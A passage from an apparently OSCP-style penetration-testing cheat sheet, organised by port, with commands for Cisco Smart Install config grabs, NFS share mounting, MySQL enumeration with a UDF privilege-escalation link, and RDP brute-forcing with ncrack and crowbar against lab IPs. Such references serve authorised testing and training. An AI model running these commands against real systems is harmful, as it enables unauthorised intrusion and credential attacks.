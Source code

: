 ### Port 2000 - Cisco sccp

```
# cisco-audit-tool
CAT -h ip -p 2000 -w /usr/share/wordlists/rockyou.txt

# cisco-smart-install
<https://github.com/Sab0tag3d/SIET/>
sudo python siet.py -g -i 192.168.0.1

```

### Port 2049 - NFS

```
nmap -p 111,2049 --script nfs-ls,nfs-showmount

showmount -e 10.11.1.111

# If you find anything you can mount it like this:

mount 10.11.1.111:/ /tmp/NFS –o nolock
mount -t nfs 10.11.1.111:/ /tmp/NFS –o nolock

```

### Port 2100 - Oracle XML DB

Default passwords:

[https://docs.oracle.com/cd/B10501\\\\\_01/win.920/a95490/username.htm](https://docs.oracle.com/cd/B10501////\_01/win.920/a95490/username.htm)

### Port 3306 - MySQL

```
nmap --script=mysql-databases.nse,mysql-empty-password.nse,mysql-enum.nse,mysql-info.nse,mysql-variables.nse,mysql-vuln-cve2012-2122.nse 10.11.1.111 -p 3306

mysql --host=10.11.1.111 -u root -p

# MYSQL UDF 4.x/5.0
<https://www.adampalmer.me/iodigitalsec/2013/08/13/mysql-root-to-system-root-with-udf-for-windows-and-linux/>

```

### Port 3389 - RDP

```
nmap -p 3389 --script=rdp-vuln-ms12-020.nse
rdesktop -u username -p password -g 85% -r disk:share=/root/ 10.11.1.111
rdesktop -u guest -p guest 10.11.1.111 -g 94%
ncrack -vv --user Administrator -P /root/oscp/passwords.txt rdp://10.11.1.111
python crowbar.py -b rdp -s 10.11.1.111/32 -u admin -C ../rockyou.txt -v

```
